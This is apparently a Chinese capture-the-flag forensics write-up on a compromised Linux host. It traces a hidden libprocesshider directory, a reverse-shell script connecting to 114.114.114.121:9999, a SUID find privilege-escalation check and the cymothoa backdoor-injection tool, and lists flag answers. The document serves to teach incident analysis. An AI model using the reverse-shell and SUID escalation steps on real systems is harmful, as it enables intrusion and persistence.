

题目简介
1 | 1.黑客隐藏的隐藏的文件 完整路径md5 |
1.黑客隐藏的隐藏的文件 完整路径md5
进入查询，发现vim的记录文件 .viminfo 读取它发现几个有意识到路径
1 | Command Line History (newest to oldest): |
发现libprocesshider 是一个Linux 持久性訪問到工具，1.py是这个工具所产生的执行文件。对这个目录文件 /tmp/.temp/libprocesshider/1.py 加密，提交 flag{109ccb5768c70638e24fb46ee7957e37}
2.黑客隐藏的文件反弹shell的ip+端口 {ip:port}
进行分析/tmp/.temp/libprocesshider/下的文件：
1 | root@xuanji:~# cat /tmp/.temp/libprocesshider/processhider.c |
发现在1.py 提到一个sdregs.connect(("114.114.114.121",9999)) ，flag{114.114.114.121:9999}
3.黑客提权所用的命令
用命令查询find / -perm -u=s -type f 2>/dev/null ,suid提权查询
1 | root@xuanji:/tmp/.temp/libprocesshider# find / -perm -u=s -type f 2>/dev/null |
发现find 可以进行

故flag为 /usr/bin/find md5加密，提交 flag{7fd5884f493f4aaf96abee286ee04120}
4.黑客尝试注入恶意代码的工具
执行find / -name '.*'查询隐藏文件。
1 | /etc/.pwd.lock |
发现一个奇怪的目录/opt/.cymothoa-1-beta,cd 进去发现是一个工具目录：
1 | root@xuanji:/opt/.cymothoa-1-beta# ls |
查询发现是一个后门隐藏工具。

故， /opt/.cymothoa-1-beta/cymothoa 加密，提交 flag{087c267368ece4fcf422ff733b51aed9}
5.使用命令运行 ./x.xx 执行该文件 将查询的 Exec** 值 作为flag提交
Cat 查看1.py：
1 | root@xuanji:/opt/.cymothoa-1-beta# cat /tmp/.temp/libprocesshider/1.py |
发现默认是“#!/usr/bin/python3” ，即pyton3运行1.py，
1 | root@xuanji:~# python3 /tmp/.temp/libprocesshider/1.py |
where查询python3 位置，最后发现链接到 /usr/bin/python3.4
按题目要求提供完整的执行程序为flag ：flag{/usr/bin/python3.4}